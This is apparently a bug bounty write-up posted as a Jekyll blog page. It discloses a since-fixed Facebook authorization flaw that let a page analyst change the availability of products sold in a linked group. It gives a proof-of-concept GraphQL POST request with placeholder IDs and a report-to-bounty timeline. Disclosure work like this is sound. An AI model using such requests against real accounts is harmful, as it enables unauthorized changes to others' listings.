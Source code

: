```yaml
---
layout: single
title:  "Facebook Bug Bounty: Change product availability as an analyst in a linked group"
---
```


## Description
This bug could have let a malicious page analyst modify the availability of an item put up for sale by the page in a group linked to the page.

## Proof of Concept
```
HTTP POST

graph.facebook.com/graphql/

query_id=QUERYID
query_params = {"3":"false","1":"image/jpeg","2":2,"0":{"surface":"GROUP_POST_CHEVRON","actor_id":"PageID","client_mutation_id":"","product_availability":"IN_STOCK","story_id":"<base64 encoded>"}}

```

## Timeline
- Jan 4, 2018 - Report Sent
- Jan 10, 2018 - Further investigation by Facebook
- Jan 23, 2019 - Fixed by Facebook
- Jan 25, 2019 - Bounty Awarded by Facebook

<iframe width="560" height="315" src="https://www.youtube.com/embed/JwZw6QJ_d18" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
